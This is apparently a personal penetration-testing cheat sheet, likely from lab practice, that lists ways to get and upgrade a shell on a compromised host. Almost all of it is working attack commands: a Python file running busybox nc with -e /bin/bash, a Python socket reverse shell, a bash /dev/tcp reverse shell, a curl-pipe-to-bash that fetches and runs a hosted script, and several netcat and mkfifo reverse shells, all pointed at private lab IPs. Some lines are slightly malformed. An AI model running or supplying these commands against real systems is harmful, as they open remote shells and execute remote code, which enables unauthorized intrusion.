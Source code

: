 

## FILE EXEC SHELLS
### PYTHON SHELL 
then i created a malicious python file to execute my code using
```
import os

os.system('busybox nc 192.168.45.168 3306 -e /bin/bash')

```

### PHP
use php rev shell stored in kali
![[Pasted image 20250704110329.png]]

### RUBY
```
echo 'system("/bin/bash")' > app.rb
```
### IMPROVING SHELLS

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

OR
Create a rev shell using online generator, and ran this 
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.158",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
Started a listener and got the shell
OR
Hosting a shell on ur machine and pulling it and running it 
`cat upgr_shell`
```
#!bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.158/4444 0>&1
```

```
curl http:192.168.45.158:81/upgr_shell.sh | bash
```


### NETCAT 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.245 443 >/tmp/f
```
```
nc 192.168.45.245 443 -e /bin/bash
```
```
nc 192.168.45.245 443 -c /bin/bash
```


